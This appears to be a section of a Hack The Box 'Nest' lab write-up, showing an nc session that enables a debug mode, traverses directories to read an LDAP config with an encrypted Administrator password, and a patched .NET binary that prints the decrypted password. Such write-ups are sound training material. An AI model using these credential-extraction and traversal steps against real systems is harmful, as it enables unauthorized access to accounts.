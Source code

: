 # 15 - HQK


![](vx_images/4365193877307.png)

# Ldap.conf and  Administrator's password
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest]
└──╼ $ nc -C 10.10.10.178 4386

HQK Reporting Service V1.2
>DEBUG WBQ201953D8w 
Debug mode enabled. Use the HELP command to view additional commands that are now available
>SETDIR ../LDAP
Current directory set to LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>SHOWQUERY 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=

```

We finally found the password but it's again encrypted. There is another file HqkLdap.exe which we saw before let us go and take a look at this file.

```
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Users/C.Smith/HQK Reporting/AD Integration Module]
└──╼ $ ls
HqkLdap.exe
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest]
└──╼ $ file HqkLdap.exe 
HqkLdap.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows

```

The file appears to be a .Net binary. There is a tool called dnSpy which can decompile .Net binaries.

# Decompiled HqkLdap.exe
![](vx_images/4074293777493.png)

1 - decrypts the password from the specified configuration file(argv1)
2 - WriteLine after ldap.password so that we can see the plaintext password while it is running
3 - `finally` block was giving me some error about enumerator being undefined, instead of fixing the program I decided to replace it with a simple WriteLine

Also there was another `else if` block holding me from getting the password, I omitted that piece as well.


```
C:\Users\Refik\Desktop>.\HqkLdapleak.exe Ldap.conf
XtH4nkS4Pl4y1nGX
Performing LDAP query...
Unexpected error: The specified domain does not exist or cannot be contacted.                                                                                                                                                                     
```

Ldap.conf is the file from HQK 


# System
![](vx_images/5573254871633.png)